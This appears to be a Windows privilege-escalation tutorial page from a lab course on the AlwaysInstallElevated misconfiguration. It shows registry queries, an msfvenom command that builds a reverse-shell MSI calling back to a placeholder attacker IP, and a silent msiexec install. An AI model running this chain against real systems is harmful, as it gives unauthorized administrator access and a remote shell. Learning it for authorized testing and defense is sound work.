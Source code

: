 ## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```objectivec
Command Prompt
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```objectivec
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```objectivec
Command Prompt
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

# Abusing Service Misconfigurations

# Abusing dangerous privileges

# Abusing vulnerable software